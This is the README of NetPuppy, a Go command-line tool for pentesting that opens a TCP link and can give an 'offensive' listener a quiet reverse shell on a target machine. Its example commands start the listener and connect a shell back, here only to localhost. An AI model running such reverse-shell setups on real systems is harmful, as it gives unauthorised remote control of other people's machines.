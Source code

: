 # NetPuppy
### Say goodbye to that "`python -c import pty; pty.spawn('bash')`" bullsh*t!
NetPuppy is a CLI tool for establishing a TCP connection b/w two peers with the option to start a stable reverse shell on one of them. NP does this by creating a pseudoterminal, so the shell experience is similar to telnet or (un-encrypted) SSH.

Originally inspired by [Netcat](https://netcat.sourceforge.net/) (until I figured out what netcat actually does) & written in Golang!
## Install
- NetPuppy is a Go project, so make sure you at least have Go 1.22.1 installed. 
- **ADDITIONALLY** you will need gcc for the CGo!
1. Clone this repo
2. Run `go build` in the root directory
## Use:
NetPuppy has two primary modes: offense & connect-back.
### Offense
The 'offensive' peer is executed as a server and listens to the `0.0.0.0` address and a specified port. It will bind incoming TCP connections to that port.
### Connect-Back
The 'connect-back' peer starts w/ a client-like relationship to the offense peer. I.e. it will connect to the address and port you give it. Additionally, if you give the `--shell` flag, it will start a bash process on the local machine. This shell will take input from the offensive peer (via the socket) and execute the input as commands on the machine its running on. The output from the shell will then be echoed back to the Offensive peer.
#### Flags:
- `-H` the host IP address you want to connect to (in connect-back mode)
- `-p` the port you want to start your peer on (both mode types)
- `-l` tell NetPuppy to listen, this will start NP in the offense mode. You can also give a port number.
- `--shell` tell NetPuppy to start a bash shell on the client peer which will take socket input as stdin and output stdout/stderr back into the socket.
## Examples:
### Offense Peer:
```
$ go run main.go -l -p 44444

... <banner>          

    *sneef sneef*
   .-.
  / (_          |Host:  0.0.0.0
 ( "  6\___o    |RPort: 44444
 /  (  ___/     |LPort: 44444
/     /  U      |Mode:  Offensive Server
```
### Connect-Back Peer:
```
$ go run main.go -H 0:0:0:0:0:0:0:1 -p 44444

...<banner>

        bork!
     __  /     |Host:  0:0:0:0:0:0:0:1
(___()'';      |RPort: 44444
/ )   /'       |LPort: 60804
/\'--/\        |Mode:  Client
```
### Connect-Back Peer w/ shell:
The Connect-Back peer will **NOT** print any output to the terminal when the `--shell` flag is given (we're trying to be sneaky). Any errors will be sent through the socket to the Offensive peer (unless the socket hasn't been connected yet, in that case NP will just exit without printing anything on the target machine).
```
$ go run main.go -H 127.0.0.1 -p 44444 --shell
```

## Goals
NetPuppy will be able to:
- [x] listen for & serve incoming TCP connections as well as initiate outgoing ones
- [ ] maintain a stable connections b/w both parties (currently improving on this, see branch [58-stabilize-shell-pty](https://github.com/TrshPuppy/netpuppy/tree/58-stabilize-shell-pty)
- [x] send and receive data from either endpoint
- [x] initiate a 'helper shell' on the client peer



## This project is still being built & improved!
### Contributing:
Just fork and create a pull request w/ a description of your changes. I (TrshPuppy) will review it! :)
### Python?
This project was originally written in Python. If you'd like to fork the Python branch (which isn't being updated), you can check it out [here](https://github.com/TrshPuppy/NetPuppy/tree/python-version-abandoned)!
